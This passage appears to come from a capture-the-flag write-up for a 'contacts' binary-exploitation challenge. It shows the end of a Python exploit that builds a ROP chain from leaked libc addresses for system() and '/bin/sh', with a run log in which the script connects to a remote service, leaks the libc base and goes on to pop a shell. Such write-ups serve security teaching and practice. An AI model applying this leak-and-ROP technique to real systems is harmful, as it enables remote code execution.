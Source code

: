 ```python

# Build ROP chain
ropchain_addr = set_ropchain(h, system_addr, binsh_addr)

print "[+]Got ROP chain address: [0x%x]" % ropchain_addr

do_exploit(h, ropchain_addr)

h.close()
```

Executing the exploit will pop a shell:

```bash
$ ./contacts_exploit.py 
[+] Opening connection to 54.165.223.128 on port 2555: Done
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
Contact info: 
    Name: 
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: 
    Length of description: 
    Enter description:
        
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
Contacts:
    Name: infoleak
    Length 8192
    Phone #: 1337
    Description: f7547a63
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
[+]Got leaked libc base address: [0xf752e000]
[+]Got '/bin/sh' address: [0xf768ba84]
[+]Got system() address: [0xf756dcd0]
Contact info: 
    Name: 
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: 
    Length of description: 
    Enter description:
        
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
```